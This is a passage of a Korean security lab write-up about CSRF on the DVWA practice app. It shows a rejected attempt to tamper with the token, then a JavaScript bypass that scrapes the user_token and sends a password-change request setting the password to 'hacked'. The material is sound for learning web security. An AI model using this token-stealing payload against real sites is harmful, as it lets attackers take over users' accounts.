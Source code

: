 사용자가 패스워드 변경 요청을 보낼 때 생성되는 `user_token`을 Burpsuite를 통해 일부 변경하여 Foward 클릭 후 요청을 변조해보았다.

![이미지](/assets/token_incorrect.png)

CSRF 토큰을 변조하여 요청할 경우 웹 서버가 가지고 있는 CSRF 토큰 값과 일치하지 않아 `CSRF token is incorrect` 메시지가 뜨며 패스워드 변경 공격에 실패한 것을 확인할 수 있었다. 랜덤으로 변하는 CSRF 토큰값으로 공격자가 유추하기 쉽지 않은 값으로 시큐어코딩을 통해 CSRF 공격을 방지하였다.

하지만 이 경우에도 공격자가 서버에서 자동으로 토큰을 가져온 다음 그 토큰을 이용하여 요청하는 우회 공격을 통해 CSRF 공격을 수행할 수 있었다.

```c
var xhr;
var dvwa_csrf_url = '/localhost/vulnerabilities/csrf/';
request1();

function request1() {
        xhr = new XMLHttpRequest();

        xhr.onreadystatechange = request2;
        xhr.open('GET', dvwa_csrf_url);
        xhr.send();
}

function request2() {
        if (xhr.readyState === 4 && xhr.status === 200) {
                var htmltext = xhr.responseText;
                var parser = new DOMParser();
                var htmldoc = parser.parseFromString(htmltext,'text/html');

                var CSRFtoken = htmldoc.getElementsByName("user_token")[0].value;
                alert('Found the token: ' + CSRFtoken);

                xhr = new XMLHttpRequest();
                xhr.open('GET', dvwa_csrf_url + '?password_new=hacked&password_conf=hacked&Change=Change&user_token=' + CSRFtoken);
                xhr.send();

        }

}
```
